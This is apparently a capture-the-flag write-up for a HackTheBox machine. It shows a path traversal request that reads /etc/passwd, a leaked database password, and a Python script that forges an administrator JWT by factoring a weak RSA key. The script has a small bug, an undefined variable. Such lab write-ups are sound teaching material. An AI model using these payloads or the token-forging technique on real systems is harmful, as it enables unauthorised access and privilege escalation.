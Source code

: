 # Part 1: Enumeration

Starting with an **Nmap scan**:

![NMAP](/static/writeups/HTB-S-VI/yummy/1.png)

Nmap reveals that ports 22 and 80 are open. I began exploring the website, `yummy.htb`. After adding this entry to `/etc/hosts`, I used `dirsearch` but found nothing significant. However, I discovered a **local file traversal vulnerability** in the "save iCalendar" functionality, accessible after booking a table.

![LFI Vulnerability](/static/writeups/HTB-S-VI/yummy/2.png)

Intercepting the request with **Burp Suite**, I tested a payload to access `/etc/passwd`:

```
GET /export/../../../../../etc/passwd
```

This response returned the contents of `/etc/passwd`:

![Passwd File](/static/writeups/HTB-S-VI/yummy/3.png)

Since I could access any files, I searched for valuable files and found something interesting in `/etc/crontab`:

![Crontab](/static/writeups/HTB-S-VI/yummy/4.png)
![Crontab Details](/static/writeups/HTB-S-VI/yummy/5.png)

### Exploring `/data/scripts`

I explored the `data/scripts` directory and found `table_cleanup.sh`, which cleans tables in MySQL. It also contains credentials for the database:

![Cleanup Script](/static/writeups/HTB-S-VI/yummy/16.png)

In `dbmonitor.sh`, I found a script that checks if the MySQL service is down and restarts it if needed:

![DB Monitor Script](/static/writeups/HTB-S-VI/yummy/18.png)

`app_backup.sh` goes to `/var/www/` directory and zips content of `/opt/app` as `backupapp.zip` file:

![Backup App](/static/writeups/HTB-S-VI/yummy/7.png)

Extracting `backupapp.zip` provided the web application’s source code. Here are the files:

![Extracted Files](/static/writeups/HTB-S-VI/yummy/9.png)

In `app.py`, I located the same database credentials as those in `cleanup.sh`:

```
db_config = {
    'host': '127.0.0.1',
    'user': 'chef',
    'password': '3wDo7gSRZIwIHRxZ!',
    'database': 'yummy_db',
    'cursorclass': pymysql.cursors.DictCursor,
    'client_flag': CLIENT.MULTI_STATEMENTS
}
```

### JWT Vulnerability

In the `config` folder, the `signature.py` file revealed session token generation logic.

Code:

```
#!/usr/bin/python3

from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy


# Generate RSA key pair
q = sympy.randprime(2**19, 2**20)
n = sympy.randprime(2**1023, 2**1024) * q
e = 65537
p = n // q
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)
key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}
key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
private_key_bytes = key.export_key()

private_key = serialization.load_pem_private_key(
    private_key_bytes,
    password=None,
    backend=default_backend()
)
public_key = private_key.public_key()
```

Upon decoding the JWT token in base64, the `n` value of the RSA encryption was exposed:

![JWT Decoding](/static/writeups/HTB-S-VI/yummy/12.png)

Modifying the role to `administrator` was initially unsuccessful due to signature verification, which hashes the payload and header with a secret key. However, with access to the `n` value, I modified `signature.py` to create an admin token.

Using the following Python script, I generated a modified JWT with administrator privileges:

```
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy
import jwt
import base64

# Your session token
original_jwt = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...<trimmed>"

# Decoding and modifying the JWT
n = int(s.split('"n":')[1].split('"')[1])
e = 65537
factors = sympy.factorint(n)
p, q = list(factors.keys())
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)
key = RSA.construct((n, e, d, p, q))
signing_key = key.export_key()

# Modifying role to administrator
decoded_payload = jwt.decode(
    original_jwt,
    signing_key,
    algorithms=["RS256"],
    options={"verify_signature": False}
)
decoded_payload['role'] = 'administrator'
new_jwt = jwt.encode(decoded_payload, signing_key, algorithm='RS256')
print("Modified JWT with administrator role:", new_jwt)
```

Using the new token in `x-auth` for `/admindashboard`, I accessed the admin panel:

![Admin Panel](/static/writeups/HTB-S-VI/yummy/13.png)

The admin panel contained limited functionality, but I identified an error-based SQL injection vulnerability in the search function.

![SQL Injection](/static/writeups/HTB-S-VI/yummy/14.png)

With this SQL injection vulnerability, I planned to escalate further.

---

### Part 2: Foothold

**To be updated...**
